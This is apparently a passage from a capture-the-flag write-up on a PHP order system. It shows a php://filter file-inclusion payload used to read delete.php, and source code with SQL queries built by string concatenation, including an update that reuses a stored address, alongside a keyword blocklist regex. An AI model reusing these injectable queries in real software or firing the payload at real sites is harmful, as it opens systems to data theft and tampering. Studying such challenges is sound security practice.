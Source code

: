 ```php
        $row = $fetch->fetch_assoc();
        $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
        $result = $db->query($sql);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "订单修改成功";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?>
```

```php
/index.php?file=php://filter/read=convert.base64-encode/resource=delete.php
```

```php
<?php

require_once "config.php";

if(!empty($_POST["user_name"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){ 
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $result = $db->query('delete from `user` where `user_id`=' . $row["user_id"]);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "订单删除成功";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?>
```
